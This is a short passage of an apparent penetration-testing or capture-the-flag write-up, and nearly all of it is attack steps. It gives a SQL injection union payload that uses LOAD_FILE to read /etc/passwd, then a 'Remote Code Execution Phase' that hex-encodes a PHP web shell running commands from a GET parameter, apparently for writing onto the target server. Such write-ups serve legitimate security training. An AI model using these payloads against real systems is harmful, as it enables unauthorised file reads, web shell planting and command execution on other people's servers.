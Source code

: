 **BURP COMMAND:**

```bash
**' union select null,LOAD_FILE('/etc/passwd')-- -**
```

**For more SQL string functions:**

[MySQL LOAD_FILE() function - w3resource](https://www.w3resource.com/mysql/string-functions/mysql-load_file-function.php)

> **Remote Code Execution Phase**
> 

`sudo service mysql start`

`mysql -u root -p` 

```bash
Enter password: 

MariaDB [(none)]> select hex("<?php system($_GET['do']);?>");
+----------------------------------------------------------+
| hex("<?php system($_GET['do']);?>")                      |
+----------------------------------------------------------+
| 3C3F7068702073797374656D28245F4745545B27646F275D293B3F3E |
+----------------------------------------------------------+
1 row in set (0.001 sec)

```

**For online encoding tool:**

[Hex decoder: Online hexadecimal to text converter](https://cryptii.com/pipes/hex-decoder)

![image.png](image%207.png)
